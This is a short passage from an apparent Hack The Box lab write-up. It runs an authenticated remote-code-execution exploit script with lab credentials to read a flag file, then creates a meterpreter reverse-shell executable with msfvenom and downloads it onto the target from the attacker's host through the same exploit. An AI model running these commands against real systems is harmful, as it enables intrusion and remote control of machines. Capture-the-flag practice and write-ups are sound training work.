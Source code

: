 <figure><img src="../../../.gitbook/assets/image (61).png" alt=""><figcaption></figcaption></figure>

so you just enumerate from now on :&#x20;

<figure><img src="../../../.gitbook/assets/image (546).png" alt=""><figcaption></figcaption></figure>

```
 python 49488.py -u admin@htb.local -p baconandcheese -i http://10.129.220.71 -c powershell.exe -a "cat C:/Users/Public/Desktop/user.txt"
```

Now let's create a malware with msfvenom on our local machine to gain a shell:

```
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.94 LPORT=6565 -f exe > exploit2.exe
```

then the payload to transfer our payload through our RCE on the target don't forget to make a python localhost on whatever port you want to retrieve the payload:

```
python 49488.py -u admin@htb.local -p baconandcheese -i http://10.129.230.172 -c powershell.exe -a "-NoP Invoke-WebRequest -Uri 'http://10.10.14.94:8000/exploit2.exe' -OutFile 'C:/ftp_transfer/meter.exe'"
```
